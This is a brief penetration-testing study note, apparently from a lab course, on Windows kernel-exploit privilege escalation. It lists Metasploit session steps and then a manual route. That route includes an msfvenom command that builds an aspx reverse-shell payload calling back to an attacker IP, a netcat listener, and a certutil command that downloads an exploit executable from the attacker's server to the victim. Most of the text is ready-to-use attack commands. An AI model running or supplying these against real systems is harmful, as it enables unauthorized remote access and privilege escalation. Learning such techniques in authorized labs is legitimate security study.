 04. Kernel Exploits

## Overview:
Kernel:
- Computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator
![d7c0dbe362715c030c0f71b7266335b4.jpg](../_resources/f33449447f494d77a8e516b2680686e1.jpg)
![aab0d8459510021d15a6c010024fb06e.jpg](../_resources/99045f64fa6145c68b79a19bb8730d40.jpg)
List of windows kernel exploits: https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit
https://seclists.org/fulldisclosure/2010/Jan/341 is the used exploit
- Get a meterpreter session
- `background` or control-z
- `search MS##-##`
- `use exploit/windows/local/STUFF`
- `sessions`
- `set session #`
- `set LHOST IP`
- `set LPORT 5555` # make sure it is different than the meterpreter port
- `run`
- You may need to run multiple times/change settings with `options` again

### Manual Escalation without Metasploit (uploading aspx file)
#### Getting a shell
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f aspx > manualshell.aspx`
- `nc -nvlp 4444` # Listening for shell
- Run the aspx file on the web server or whatever

#### Priv Escalation

- Search for exploits in google or https://github.com/SecWiki/windows-kernel-exploits
- Download, (compile,) run on machine!
- Transferring file:
	- `python -m SimpleHTTPServer 80` or `python3 -m http.server 80`
	- `certutil -urlcache -f http://10.10.14.25/MS10-059.exe ms.exe`